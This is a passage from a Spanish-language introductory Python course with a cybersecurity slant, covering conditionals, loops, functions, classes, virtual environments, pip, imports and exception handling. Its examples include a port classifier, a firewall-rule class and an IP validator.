Esta sección explora las estructuras fundamentales que permiten a un programa tomar decisiones y repetir acciones.

### If, elif, else

<p align="center"></p>

> [!TIP]
> **🎮 Mini-reto 5:** ¿qué imprime `print(5 > 3 and not False)`?
>
> <details><summary>🔓 Respuesta</summary>
>
> `True`. `5 > 3` es verdadero y `not False` también.
>
> </details>

Las estructuras if, elif y else se utilizan para tomar decisiones en un programa. Permiten ejecutar diferentes bloques de código dependiendo de si una condición es verdadera o falsa. Por ejemplo, con if puedes comprobar si una variable cumple cierta condición, elif (abreviatura de “else if”) permite agregar más condiciones alternativas, y else se ejecuta solo si ninguna de las anteriores fue verdadera. Esta lógica condicional es esencial para controlar el flujo del programa y reaccionar ante diferentes situaciones. Aprender a usar if, elif y else es uno de los primeros pasos clave en programación.

```python
puerto = 22

if puerto == 22:           # if: primera condición
    print("SSH")
elif puerto == 80:         # elif: solo se comprueba si la anterior fue False
    print("HTTP")
else:                      # else: si ninguna se cumplió
    print("Otro servicio")
```

```python
edad = 20

if edad >= 18:
    print("Eres mayor de edad")
else:
    print("Eres menor de edad")
```

<details>
<summary>Ver resultado</summary>

```text
Eres mayor de edad
```

</details>

Ejemplo: Programa interactivo
```python
print("=== Calculadora de IMC ===")
nombre = input("Tu nombre: ")
peso = float(input("Tu peso en kg: "))
altura = float(input("Tu altura en metros: "))

imc = peso / (altura ** 2)
print(f"\n{nombre}, tu IMC es: {imc:.2f}")

if imc < 18.5:
    print("Peso bajo")
elif imc < 25:
    print("Peso normal")
elif imc < 30:
    print("Sobrepeso")
else:
    print("Obesidad")
```

Ejemplo: Condiciones con diferentes tipos de datos
```python
# ===== STRINGS =====
nombre = "Yago"

# Verificar si string tiene contenido
if nombre:
    print(f"Hola, {nombre}")  # Se ejecuta porque nombre no está vacío

# Comparar strings
if nombre == "Yago":
    print("El nombre es Yago")  # Se ejecuta

# Verificar si un texto está dentro de otro
nombre_completo = "Yago Hansen"
if "Hansen" in nombre_completo:
    print("El apellido Hansen está presente")  # Se ejecuta

# ===== LISTAS =====
frutas = ["manzana", "banana", "cereza"]
lista_vacia = []

# Verificar si lista tiene elementos
if frutas:
    print("Hay frutas en la lista")  # Se ejecuta

# Verificar si un elemento está en la lista
if "banana" in frutas:
    print("Tenemos bananas")  # Se ejecuta

# Lista vacía se evalúa como False
if lista_vacia:
    print("Hay elementos")
else:
    print("La lista está vacía")  # Se ejecuta

# ===== BOOLEANOS =====
tiene_licencia = True
mayor_de_edad = True

# Valor booleano directo
if tiene_licencia:
    print("Tiene licencia de conducir")  # Se ejecuta

# Combinar condiciones con AND
if tiene_licencia and mayor_de_edad:
    print("Puede conducir")  # Se ejecuta

# Negación con NOT
if not tiene_licencia:
    print("No tiene licencia")
else:
    print("Tiene licencia")  # Se ejecuta
```

#### Anidación de condiciones

La comprobación de condiciones se puede representar con `and` o mediante anidación de `if` en algunos casos y en otros se debe de utilizar anidación siempre dependiendo del uso de `else` que hagamos.

```python
edad = 25
tiene_licencia = True

if edad >= 18:
    if tiene_licencia:
        print("Puede conducir")
    else:
        print("Mayor de edad pero sin licencia")
else:
    print("Menor de edad")
```

<details>
<summary>Ver resultado</summary>

```text
Puede conducir
```

</details>

#### Negación

```python
llueve = False

if not llueve:
    print("Vamos al parque")  # Se ejecuta
else:
    print("Nos quedamos en casa")

# Negación con in
numero = 5
numeros_pares = [2, 4, 6, 8]

if numero not in numeros_pares:
    print(f"{numero} no es par")  # Se ejecuta
```

#### Uso en variables

Ejemplo: Asignación condicional (operador ternario)
```python
edad = 20

if edad >= 18:
    mensaje = "Mayor de edad"
else:
    mensaje = "Menor de edad"
print(mensaje)

mensaje = "Mayor de edad" if edad >= 18 else "Menor de edad"
print(mensaje)

nombre = None
nombre_mostrar = nombre or "Anónimo"
print(nombre_mostrar)

nombre = "Juan"
nombre_mostrar = nombre or "Anónimo"
print(nombre_mostrar)
```

<details>
<summary>Ver resultado</summary>

```text
Mayor de edad
Mayor de edad
Anónimo
Juan
```

</details>

Ejemplo práctico: Sistema de descuentos
```python
precio = 100
es_estudiante = True
tiene_cupon = False

descuento = 0
if es_estudiante and tiene_cupon:
    descuento = 30
elif es_estudiante:
    descuento = 15
elif tiene_cupon:
    descuento = 10

precio_final = precio - (precio * descuento / 100)
print(f"Precio original: ${precio}")
print(f"Descuento: {descuento}%")
print(f"Precio final: ${precio_final}")
```

<details>
<summary>Ver resultado</summary>

```text
Precio original: $100
Descuento: 15%
Precio final: $85.0
```

</details>

### Bucle For

<p align="center"></p>

> [!TIP]
> **🎮 Mini-reto 6:** ¿cuántos números imprime `for i in range(2, 10, 3)`?
>
> <details><summary>🔓 Respuesta</summary>
>
> Tres: `2, 5, 8`. El 11 ya se pasa del límite.
>
> </details>

El bucle for se usa para recorrer elementos de una secuencia, como listas, cadenas de texto o rangos de números. Es muy útil cuando se quiere repetir una acción un número determinado de veces o procesar cada elemento de una colección. A diferencia del while, el for trabaja directamente sobre una secuencia y no necesita una condición explícita, lo que lo hace más fácil de controlar y leer en muchas situaciones comunes.

Ejemplo práctico: Tabla de multiplicar
```python
numero = 5
print(f"Tabla de multiplicar del {numero}:")

for i in range(1, 11):
    resultado = numero * i
    print(f"{numero} x {i} = {resultado}")
```

<details>
<summary>Ver resultado</summary>

```text
Tabla de multiplicar del 5:
5 x 1 = 5
5 x 2 = 10
5 x 3 = 15
5 x 4 = 20
5 x 5 = 25
5 x 6 = 30
5 x 7 = 35
5 x 8 = 40
5 x 9 = 45
5 x 10 = 50
```

</details>

Ejemplo: Diferentes usos de range

```python
for i in range(5):
    print(i)

for i in range(0, 11, 2):
    print(i)

for i in range(10, 0, -1):
    print(i)
```

<details>
<summary>Ver resultado</summary>

```text
0
1
2
3
4

0
2
4
6
8
10

10
9
8
7
6
5
4
3
2
1
```

</details>

Ejemplo: Iterar sobre una cadena
```python
palabra = 'banana'
contador = 0

for letra in palabra:
    if letra == 'a':
        contador = contador + 1

print(f"La letra 'a' aparece {contador} veces")
```

<details>
<summary>Ver resultado</summary>

```text
La letra 'a' aparece 3 veces
```

</details>

Ejemplo: Iterar sobre una lista
```python
frutas = ["manzana", "banana", "cereza", "durazno"]

for fruta in frutas:
    print(f"Me gusta la {fruta}")
```

<details>
<summary>Ver resultado</summary>

```text
Me gusta la manzana
Me gusta la banana
Me gusta la cereza
Me gusta la durazno
```

</details>

Ejemplo: Iterar con índice (enumerate)
```python
colores = ["rojo", "verde", "azul"]

for indice, color in enumerate(colores):
    print(f"{indice}: {color}")
```

<details>
<summary>Ver resultado</summary>

```text
0: rojo
1: verde
2: azul
```

</details>

Ejemplo: Iterar sobre diccionario
```python
estudiante = {
    "nombre": "Ana",
    "edad": 20,
    "carrera": "Ingeniería"
}

for clave, valor in estudiante.items():
    print(f"{clave}: {valor}")
```

<details>
<summary>Ver resultado</summary>

```text
nombre: Ana
edad: 20
carrera: Ingeniería
```

</details>

### Bucle While

> [!TIP]
> **🎮 Mini-reto 7:** ¿cuántas veces se ejecuta este bucle?
>
> `i = 0`<br>
> `while i < 3:`<br>
> `    i += 1`
>
> <details><summary>🔓 Respuesta</summary>
>
> Tres veces: con `i` igual a `0`, `1` y `2`. Termina cuando llega a `3`.
>
> </details>

El bucle while se utiliza para repetir un bloque de código mientras se cumpla una condición. Es ideal cuando no se sabe de antemano cuántas veces debe repetirse una acción, pero sí se conoce la condición que debe mantenerse verdadera. El programa evaluará la condición antes de cada repetición, y saldrá del bucle en cuanto la condición sea falsa. Es importante asegurarse de que la condición cambie en algún momento, para evitar bucles infinitos.

> [!CAUTION]
> Si olvidas `i += 1`, la condición nunca cambia y el bucle no termina. Para pararlo pulsa <kbd>Ctrl</kbd> + <kbd>C</kbd>.

#### Bucle while

Ejemplo básico: Contar del 1 al 5
```python
i = 1

while i <= 5:
    print(f"Número: {i}")
    i += 1
```

<details>
<summary>Ver resultado</summary>

```text
Número: 1
Número: 2
Número: 3
Número: 4
Número: 5
```

</details>

#### Break (salir del bucle)

Ejemplo: Uso de break
```python
for i in range(1, 11):
    if i == 5:
        break
    print(i)
```

<details>
<summary>Ver resultado</summary>

```text
1
2
3
4
```

</details>

Ejemplo práctico: Buscar un número
```python
numeros = [10, 25, 30, 15, 40, 50]
buscar = 15

for num in numeros:
    if num == buscar:
        print(f"¡Número {buscar} encontrado!")
        break
else:
    print(f"Número {buscar} no encontrado")
```

<details>
<summary>Ver resultado</summary>

```text
¡Número 15 encontrado!
```

</details>

#### Continue (saltar a la siguiente iteración)

Ejemplo: Uso de continue
```python
for i in range(1, 11):
    if i == 5:
        continue
    print(i)
```

<details>
<summary>Ver resultado</summary>

```text
1
2
3
4
6
7
8
9
10
```

</details>

Ejemplo: Imprimir solo números pares
```python
for i in range(1, 11):
    if i % 2 != 0:
        continue
    print(i)
```

<details>
<summary>Ver resultado</summary>

```text
2
4
6
8
10
```

</details>

#### Bucle infinito

Ejemplo: Menú interactivo
```python
while True:
    print("\n=== MENÚ ===")
    print("1. Saludar")
    print("2. Despedirse")
    print("3. Salir")
    
    opcion = input("Elige una opción: ")
    
    if opcion == "1":
        print("¡Hola! ¿Cómo estás?")
    elif opcion == "2":
        print("¡Hasta luego!")
    elif opcion == "3":
        print("Saliendo del programa...")
        break  # Sale del bucle infinito
    else:
        print("Opción no válida")

print("Programa terminado")
```

<details>
<summary><b>🏋️ Ejercicio 3 · Clasificador de puertos</b></summary>

Dada la lista `puertos = [21, 22, 80, 443, 3306, 8080]` y el diccionario `servicios = {21: "FTP", 22: "SSH", 80: "HTTP", 443: "HTTPS"}`, recorre la lista y muestra para cada puerto su servicio, o `Desconocido` si no está en el diccionario. Al final, muestra cuántos puertos son desconocidos.

<details>
<summary>👀 Ver solución</summary>

```python
puertos = [21, 22, 80, 443, 3306, 8080]
servicios = {21: "FTP", 22: "SSH", 80: "HTTP", 443: "HTTPS"}

desconocidos = 0
for puerto in puertos:
    if puerto in servicios:
        print(f"{puerto:>5} → {servicios[puerto]}")
    else:
        print(f"{puerto:>5} → Desconocido")
        desconocidos += 1

print(f"Puertos desconocidos: {desconocidos}")
```

</details>
</details>

## Funciones

<p align="center"></p>

Las funciones son bloques de código reutilizable que realizan una tarea específica.

```python
def saludar():
    print("¡Hola!")
    print("Bienvenido a Python")

saludar()
```

<details>
<summary>Ver resultado</summary>

```text
¡Hola!
Bienvenido a Python
```

</details>

### Input arguments (Argumentos de entrada)

> [!TIP]
> **🎮 Mini-reto 8:** si una función se define como `def conectar(host, puerto=443)`, ¿qué puerto usa `conectar("example.com")`?
>
> <details><summary>🔓 Respuesta</summary>
>
> El puerto `443`, porque es el valor predeterminado del parámetro `puerto`.
>
> </details>

Los argumentos son la forma más práctica de introducir datos variables en una función, al llamarla. También se usan para modificar su comportamiento.

```python
def suma(a, b):
    resultado = a + b
    print(f"{a} + {b} = {resultado}")

suma(5, 3)
suma(10, 20)

def presentar(nombre, edad=18):
    print(f"Me llamo {nombre} y tengo {edad} años")

presentar("Juan", 25)
presentar("Ana")
```

<details>
<summary>Ver resultado</summary>

```text
5 + 3 = 8
10 + 20 = 30
Me llamo Juan y tengo 25 años
Me llamo Ana y tengo 18 años
```

</details>

### Return (Retornar valores)

<p align="center"></p>

Algunas funciones son autónomas y realizan un trabajo sin devolver un valor. Pero por lo general, las funciones deben devolver valores tras procesarlos o simplemente devolver un estado (booleano).

Piensa en una función como una **caja negra**: le das datos de entrada (argumentos), hace su trabajo y te devuelve un resultado con `return`.

```python
def sumar(a, b):
    return a + b

resultado = sumar(10, 5)
print(resultado)

total = sumar(20, 30) + sumar(5, 5)
print(total)

def es_par(numero):
    if numero % 2 == 0:
        return True
    else:
        return False

print(es_par(4))
print(es_par(7))

def calcular_rectangulo(ancho, alto):
    area = ancho * alto
    perimetro = 2 * (ancho + alto)
    return area, perimetro

a, p = calcular_rectangulo(5, 3)
print(f"Área: {a}, Perímetro: {p}")
```

<details>
<summary>Ver resultado</summary>

```text
15
60
True
False
Área: 15, Perímetro: 16
```

</details>

### Main function

La función `main()` es una convención útil para organizar el código principal del programa. Python no obliga a utilizarla, pero hace que los scripts sean más fáciles de leer.

```python
x = 10

def saludar():
    print("Hola desde la función saludar")

def main():

    print("Iniciando programa...")
    print(f"Variable global x: {x}")
    saludar()
    print("Programa finalizado")

if __name__ == "__main__":
    main()
```

<details>
<summary>Ver resultado</summary>

```text
Iniciando programa...
Variable global x: 10
Hola desde la función saludar
Programa finalizado
```

</details>

**¿Por qué usar `if __name__ == "__main__":`?**

Esto permite que el archivo pueda:
- Ejecutarse como programa principal
- Importarse como módulo sin ejecutar el código principal

## Clases y objetos (opcional)

<p align="center"></p>

> [!NOTE]
> Las clases no son imprescindibles para empezar: muchos scripts de seguridad son solo funciones. Basta con saber reconocerlas cuando las leas en el código de otros.


<p align="center"></p>

Este código define una clase llamada `ReglaFirewall` que representa una regla de firewall: especifica si se debe permitir o bloquear el tráfico de red desde una IP origen a una IP destino en un puerto específico. Cada objeto de esta clase contiene los datos de una regla y puede mostrarla o evaluar si cierto tráfico está permitido. Este ejemplo es ideal para aprender sobre clases, atributos, métodos y lógica condicional en Python aplicados a un caso práctico de ciberseguridad.

**Ver ejemplo completo:** [`examples/classFirewallRule.py`](examples/classFirewallRule.py)

Ejemplo de uso clases: `classFirewallRule.py`
```python
class ReglaFirewall:
    def __init__(self, ip_origen, ip_destino, puerto, accion):
        """
        Inicializa una regla de firewall.
        :param ip_origen: IP de origen (ej. "192.168.1.10")
        :param ip_destino: IP de destino (ej. "10.0.0.5")
        :param puerto: Número de puerto (ej. 80)
        :param accion: "permitir" o "denegar"
        """
        self.ip_origen = ip_origen
        self.ip_destino = ip_destino
        self.puerto = puerto
        self.accion = accion.lower()

    def mostrar_regla(self):
        """Imprime la regla en formato legible."""
        print(f"Regla: {self.accion.upper()} tráfico de {self.ip_origen} hacia {self.ip_destino} en el puerto {self.puerto}")

    def esta_permitido(self, ip_origen, puerto):
        """
        Verifica si una conexión desde cierta IP y puerto está permitida por esta regla.
        :param ip_origen: IP de origen a comprobar
        :param puerto: Puerto a comprobar
        :return: True si está permitido, False si no
        """
        if self.ip_origen == ip_origen and self.puerto == puerto:
            return self.accion == "permitir"
        return False

regla1 = ReglaFirewall("192.168.1.10", "10.0.0.5", 80, "permitir")
regla2 = ReglaFirewall("192.168.1.20", "10.0.0.5", 22, "denegar")

regla1.mostrar_regla()
regla2.mostrar_regla()

print(regla1.esta_permitido("192.168.1.10", 80))
print(regla2.esta_permitido("192.168.1.20", 22))
```

<details>
<summary>Ver resultado</summary>

```text
Regla: PERMITIR tráfico de 192.168.1.10 hacia 10.0.0.5 en el puerto 80
Regla: DENEGAR tráfico de 192.168.1.20 hacia 10.0.0.5 en el puerto 22
True
False
```

</details>

<details>
<summary><b>🏋️ Ejercicio 4 · Validar una IP</b></summary>

Escribe una función `es_ip_valida(ip)` que devuelva `True` si la cadena tiene 4 números separados por puntos, todos entre 0 y 255. Pruébala con `"192.168.1.10"`, `"300.1.1.1"` y `"hola"`. Pista: `split(".")`, `isascii()`, `isdigit()` e `int()`.

<details>
<summary>👀 Ver solución</summary>

```python
def es_ip_valida(ip):
    partes = ip.split(".")
    if len(partes) != 4:
        return False

    for parte in partes:

        if not parte.isascii() or not parte.isdigit():
            return False
        if not 0 <= int(parte) <= 255:
            return False

    return True

print(es_ip_valida("192.168.1.10"))
print(es_ip_valida("300.1.1.1"))
print(es_ip_valida("hola"))
```

<details>
<summary>Ver resultado</summary>

```text
True
False
False
```

</details>

</details>
</details>

## Instalar, importar y usar librerías

<p align="center"></p>

Las librerías (o módulos) son conjuntos de funciones predefinidas que extienden las capacidades de Python hasta el infinito, ayudándonos a no tener que inventar la rueda, cuando en la mayoría de los casos ya está inventada y perfeccionada al máximo.

### Entornos Virtuales (venv)

<p align="center"></p>

Los entornos virtuales son espacios aislados donde puedes instalar librerías específicas para cada proyecto sin afectar tu sistema global ni otros proyectos.

> [!WARNING]
> En **Kali, Debian 12+ y Ubuntu 23.04+**, `pip install` fuera de un entorno virtual da el error `externally-managed-environment`. No es un fallo: el sistema protege sus propios paquetes. **Crea y activa siempre un entorno virtual antes de usar `pip`.**

#### ¿Por qué usar entornos virtuales?

**Problema sin entornos virtuales:**
- Proyecto A necesita Django 3.2
- Proyecto B necesita Django 4.1
- Ambos comparten las mismas librerías del sistema → CONFLICTO

**Solución con entornos virtuales:**
- Cada proyecto tiene su propio espacio aislado
- Puedes tener diferentes versiones de la misma librería
- No contaminas tu instalación global de Python
- Facilita compartir proyectos (requirements.txt específico)
- Evita el temido "funciona en mi máquina" 🐛

#### Crear un entorno virtual

```bash
# Navega a la carpeta de los ejemplos
cd examples

# Crea el entorno virtual (crea una carpeta llamada 'venv')
python3 -m venv venv
```

Esto crea una carpeta con:
- Un intérprete de Python para el entorno
- pip independiente
- Espacio para librerías aisladas

#### Activar y usar el entorno virtual
```bash
# Activa el entorno
source venv/bin/activate
# Verás que tu terminal cambia, mostrando (venv) al inicio:
# (venv) usuario@ordenador:~/ejemplos$
```

Una vez activado, todo lo que instales con `pip` se quedará en ese entorno:
```bash
# El entorno está activo (ves 'venv' en el prompt)
(venv) $ pip install -r requirements.txt

# Ejecuta tu script usando las librerías del entorno
(venv) $ python api_fuzzer.py
```

Para desactivar el entorno virtual, al terminar de usar el programa
```bash
# Simplemente escribe:
(venv) $ deactivate
# Tu terminal vuelve a la normalidad y desaparece (venv):
# usuario@ordenador:~/ejemplos$
```

### From PyPI

> [!TIP]
> **🎮 Mini-reto 9:** acabas de clonar un proyecto que incluye `requirements.txt`. ¿Qué comando instala todas sus librerías?
>
> <details><summary>🔓 Respuesta</summary>
>
> `pip install -r requirements.txt`, con el entorno virtual activado.
>
> </details>

[PyPI](https://pypi.org/) (Python Package Index) es el repositorio oficial de librerías de Python, y `pip` es la herramienta que las instala. Ofrece cientos de miles de librerías en todas sus versiones. Ejecuta estos comandos **con el entorno virtual activado**.

```bash
# Instalar una librería específica
pip install scapy

# Instalar múltiples librerías
pip install requests beautifulsoup4

# Instalar desde un archivo de requisitos (muy utilizado al descargar programas)
pip install -r requirements.txt

# Actualizar una librería
pip install --upgrade requests

# Ver librerías instaladas
pip list
```

Este es un resumen del archivo [`examples/requirements.txt`](examples/requirements.txt) utilizado por el curso:
```text
requests>=2.31.0
flask>=3.0.0
beautifulsoup4>=4.12.0
python-nmap>=0.7.1
scapy>=2.5.0
urllib3>=2.0.0
```

### From debian packages

Instalar paquetes desde el sistema Linux tiene ventajas e inconvenientes. La ventaja de ser la forma más fácil de hacerlo, se convierte en un problema en ocasiones, cuando intentamos actualizar algunos paquetes desde el gestor de paquetes de Python.

```bash
# En Debian/Ubuntu
apt install python3-pip
apt install python3-requests
apt install python3-flask
```

### Importar módulos o librerías en script de Python

```python
# Importar módulo completo
import os
import sys
import json

# Usar funciones del módulo
directorio_actual = os.getcwd()
print(directorio_actual)

# Importar función específica
from datetime import datetime
ahora = datetime.now()
print(ahora)

# Usar alias para nombres largos
import datetime as dt
ahora = dt.datetime.now()
print(ahora)

```
Ejemplo: Librería requests (HTTP)
```python
import requests

# Hacer una petición GET a una API
respuesta = requests.get("https://api.github.com", timeout=10)
print(f"Código de estado: {respuesta.status_code}")
print(f"Contenido: {respuesta.json()}")

# Hacer una petición POST a un formulario de login
datos = {"username": "usuario", "password": "clave_de_ejemplo"}
respuesta = requests.post("https://example.com/login", json=datos, timeout=10)
```

Ejemplo: Trabajar con módulos estándar de Python

Python ya incorpora multiplés módulos o librerías al instalarlo. Para aligerar los programas, éstas no se cargan por defecto y debemos decidir cuando las importamos, si las necesitamos. Estas son algunas de las más comunes:

```python
# os - Sistema operativo
import os
print(os.getcwd())  # Directorio actual
print(os.listdir('.'))  # Listar archivos

# sys - Sistema Python
import sys
print(sys.version)  # Versión de Python
print(sys.argv)  # Argumentos de línea de comandos
```

## Debugging

<p align="center"></p>

El debugging es el proceso de encontrar y corregir errores en el código. Siempre debes preparar tu programa pensando que puedan surgir errores de todo tipo y poniendo medidas para controlar y notificar los errores.

### Try, Except

<p align="center"></p>

> [!TIP]
> **🎮 Mini-reto 10:** ¿qué excepción salta con `int("hola")`?
>
> <details><summary>🔓 Respuesta</summary>
>
> `ValueError`. Python no sabe convertir esa cadena en un entero.
>
> </details>

En Python, try y except se usan para manejar errores de forma controlada, evitando que el programa se detenga bruscamente cuando ocurre un problema. El bloque try contiene el código que puede causar un error, y si ocurre una excepción (como dividir entre cero o abrir un archivo que no existe), Python salta al bloque except, donde puedes capturar el error y responder adecuadamente, como mostrar un mensaje o intentar otra acción. Es una herramienta fundamental para hacer que tus programas sean más robustos y seguros frente a situaciones inesperadas.

```python
try:
    numero = int("texto")
    print(numero)
except Exception as e:
    print(f"Error: {e}")
```

<details>
<summary>Ver resultado</summary>

```text
Error: invalid literal for int() with base 10: 'texto'
```

</details>

Ejemplo: Errores específicos
```python
try:
    # Intentar dividir por cero
    resultado = 10 / 0
except ZeroDivisionError:
    print("Error: No se puede dividir por cero")
except Exception as e:
    print(f"Otro error: {e}")
```

Ejemplo: Try-except-else-finally

```python
def dividir(a, b):
    try:
        resultado = a / b
    except ZeroDivisionError:
        print("Error: División por cero")
        return None
    except TypeError:
        print("Error: Tipo de dato incorrecto")
        return None
    else:

        print("División exitosa")
        return resultado
    finally:

        print("Fin de la operación")

print(dividir(10, 2))

print(dividir(10, 0))
```

<details>
<summary>Ver resultado</summary>

```text
Primera llamada:
División exitosa
Fin de la operación
5.0

Segunda llamada:
Error: División por cero
Fin de la operación
None
```

</details>

Ejemplo práctico: Lectura segura de archivos
```python
def leer_archivo(nombre_archivo):
    try:
        with open(nombre_archivo, 'r') as archivo:
            contenido = archivo.read()
            return contenido
    except FileNotFoundError:
        print(f"Error: El archivo '{nombre_archivo}' no existe")
        return None
    except PermissionError:
        print(f"Error: No tienes permisos para leer '{nombre_archivo}'")
        return None
    except Exception as e:
        print(f"Error inesperado: {e}")
        return None

# Uso
contenido = leer_archivo("datos.txt")
if contenido:
    print(contenido)
```

### Logging (registro de eventos)

Registrar lo que hace tu programa (errores, advertencias, accesos) en lugar de usar solo `print` te permite revisar después qué pasó, detectar fallos y cumplir auditorías. El módulo estándar `logging` clasifica los mensajes por **niveles de severidad**:

| Nivel | Cuándo usarlo |
|---|---|
| `DEBUG` | Detalles para depurar |
| `INFO` | Funcionamiento normal |
| `WARNING` | Algo raro, pero el programa sigue |
| `ERROR` | Ha fallado una operación |
| `CRITICAL` | El programa no puede continuar |

Ejemplo: Sistema de logging completo
```python
import logging

# Configurar logging
logging.basicConfig(
    level=logging.DEBUG,
    format='%(asctime)s - %(name)s - %(levelname)s - %(message)s',
    handlers=[
        logging.FileHandler('app.log'),
        logging.StreamHandler()  # También mostrar en consola
    ]
)

# Crear logger
logger = logging.getLogger('MiApp')

# Usar diferentes niveles
logger.debug('Mensaje de depuración')
logger.info('Mensaje informativo')
logger.warning('Mensaje de advertencia')
logger.error('Mensaje de error')
logger.critical('Mensaje crítico')

# Ejemplo en función
def procesar_datos(datos):
    logger.info(f"Procesando {len(datos)} elementos")
    try:
        # Procesar datos
        resultado = sum(datos)
        logger.info(f"Resultado: {resultado}")
        return resultado
    except Exception as e:
        logger.error(f"Error al procesar datos: {e}")
        return None

# Uso
datos = [1, 2, 3, 4, 5]
procesar_datos(datos)
```

En Linux y macOS también puedes enviar los mensajes al **syslog** del sistema, que es donde los recogen los SIEM y los equipos de operaciones. El módulo `syslog` no existe en Windows.

```python
import syslog

syslog.openlog("MiApp")
syslog.syslog(syslog.LOG_INFO, "Evento informativo")
syslog.syslog(syslog.LOG_WARNING, "Advertencia")
syslog.syslog(syslog.LOG_ERR, "Error")
```

<details>
